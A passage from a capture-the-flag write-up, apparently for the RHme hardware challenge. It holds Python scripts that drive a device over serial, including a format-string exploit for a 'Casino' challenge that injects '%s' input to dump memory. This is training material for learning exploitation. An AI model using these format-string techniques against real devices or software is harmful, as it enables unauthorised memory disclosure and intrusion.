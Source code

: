 ```python
from rhme_serial import *

s = rhme_serial()
s.xfer("ee\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("04600000"+"00"*(0x16a-6)+"1200\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("1e1007\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("00000c02fb0c03f40704280805720806540d07a10d08c4080901090a44090b810900be090dfb090e2b0a0f6a0a10a90a11020b12ee0d135107141807153607165b0b17a40b18c10019de0b1afb0b1b180c1c500c1d770c1e950c00414243c4c5464748494a4b4c4d52139455569798595a5b5c1f4e4f50511d1e00000007\n")
print s.xfer("d\n")
s.close()
```

<a name="casino"></a>
## Casino (Exploit - 150 pts)
:> String format exploit

first you need free coupons by playing with the Spin [1]<br>
note: you have to repeat this a lot...<br>

Then, select the drink menu.<br>
You'll be asked to select a drink, this menu is only available with free coupons.<br>
This input is printed (if you entered aaa => aaa is displayed).<br>
I tried %s %s and got memory dump !!<br>

Then we tried many address and..Kabooooom ("\x17\x61 %s" as input works good)<br>
note: 0x6117 is for the fun (0x900 max)
``` python
from rhme_serial import *

s = rhme_serial()
tickets = 0
while not tickets:
    trash = s.xfer("4\n")
    trash = s.xfer("1\n")
    trash = s.xfer("S\n")
    trash = s.xfer("\r\n")
    if int(trash.split("left: ")[1][0]):
        tickets = 1
trash = s.xfer("3\n")
print s.xfer("\x17\x61 %s\n")
s.close()
```
